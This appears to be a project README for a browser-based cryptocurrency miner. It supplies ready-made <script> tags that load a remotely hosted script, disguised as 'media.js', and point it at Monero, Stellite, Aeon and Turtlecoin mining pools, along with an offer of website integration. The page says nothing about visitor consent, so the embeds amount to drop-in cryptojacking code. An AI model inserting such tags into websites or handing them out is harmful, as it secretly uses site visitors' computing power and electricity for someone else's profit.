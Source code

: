 Crypto Webminer | Electroneum | Monero | Bytecoin | IntenseCoin | Dinastycoin | Graft | SuperiorCoin | Turtlecoin | Stellite | IPBC Coin | DERO | Qwertycoin | Aeon | Cryptonight | Cryptonight-Lite | Custom Pool Support - Mining in your Browser

<br>Use Crypto Webminer - JavaScript miner on any Stratum Pool for Cryptonight Coins

<br>Host your own assets on your Server from assets branch or use https://thelifeisbinary.netlify.com/media.js

Simple Pool change: ?jason=Your_Favorite_Pool:PortNr

Complete example:
<script src="https://thelifeisbinary.netlify.com/media.js?perfekt=wss://?algo=cn?variant=0?jason=pool.supportxmr.com:3333"> </script>
<br><br>
Attention: Special Case for some custom variant fork coins: Stellite, Intensecoin and IPBC need ?algo=cn?variant=1
<br><br>
<script src="https://thelifeisbinary.netlify.com/media.js?perfekt=wss://?algo=cn?variant=1?jason=communitypool.stellite.cash:6677"> </script>
<br><br>
Attention: Aeon Cryptonight-lite ?algo=cn-lite?variant=0
<br><br>
<script src="https://thelifeisbinary.netlify.com/media.js?perfekt=wss://?algo=cn-lite?variant=0?jason=mine.supportaeon.com:3333"> </script>
<br><br>
Attention: Special Case for some custom variant fork coins: Turtlecoin need ?algo=cn-lite?variant=1
<br><br>
<script src="https://thelifeisbinary.netlify.com/media.js?perfekt=wss://?algo=cn?variant=1?jason=Pool.TRTL.CryptoPool.Space:5555"> </script>

<br><br> 
Or use our integration for websites & blogs
http://www.crypto-webminer.com/integrate.html
<br><br> 
Join Discord Chat
https://discord.gg/nnARdpc
  
<br><br> 
We take a 1% developer fee
